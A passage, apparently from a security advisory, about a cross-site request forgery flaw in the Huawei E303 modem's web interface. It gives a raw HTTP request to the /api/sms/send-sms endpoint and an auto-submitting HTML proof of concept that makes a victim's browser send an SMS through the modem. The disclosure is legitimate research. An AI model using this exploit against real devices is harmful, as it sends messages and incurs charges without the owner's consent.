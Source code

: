 {% raw %}
    Device name:    E303 / E303s-2
    Software version:       22.157.18.00.858
    Hardware version:       CH2E303SM
    Web UI version:         11.010.06.01.858
{% endraw %}


### 2.1. HTTP request/response<a id="http"></a>


{% raw %}
    POST /api/sms/send-sms HTTP/1.1
    Host: hi.link
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:25.0) Gecko/20100101 Firefox/25.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-us,en;q=0.8,de-de;q=0.5,de;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://hi.link/
    Connection: keep-alive
    Content-Type: text/plain
    Content-Length: 225

    <?xml version="1.0" encoding="UTF-8"?><request><Index>-1</Index><Phones><Phone>4422</Phone></Phones><Sca></Sca><Content>Sample Text</Content><Length>0</Length><Reserved>1</Reserved><Date>2013-12-03 16:00:00</Date></request>




    HTTP/1.1 200 OK
    Date: Thu, 01 Jan 1970 04:09:18 GMT
    Server: IPWEBS/1.4.0
    Cache-Control: no-cache
    Content-Length: 65
    Content-Type: text/html

    <?xml version="1.0" encoding="UTF-8"?>
    <response>OK</response> 
{% endraw %}

### 2.2. Proof of Concept<a id="poc"></a>

{% highlight html %}
    <html><head></head>
    <body onload=document.forms[0].submit();>

    <form action="http://hi.link/api/sms/send-sms" method="POST" enctype="text/plain">
    <textarea name="&lt;?xml version=&quot;1.0&quot; encoding" rows="10" cols="150">&quot;UTF-8&quot;?&gt;&lt;request&gt;&lt;Index&gt;-1&lt;/Index&gt;&lt;Phones&gt;&lt;Phone&gt;4422&lt;/Phone&gt;&lt;/Phones&gt;&lt;Sca&gt;&lt;/Sca&gt;&lt;Content&gt;Sample Text&lt;/Content&gt;&lt;Length&gt;0&lt;/Length&gt;&lt;Reserved&gt;1&lt;/Reserved&gt;&lt;Date&gt;2013-12-03 16:00:00&lt;/Date&gt;&lt;/request&gt;</textarea><br>
    <input type="submit" value="Send" name="" style="width: 200px; height: 50px">
    </form>

    </body>
    </html>
{% endhighlight %}
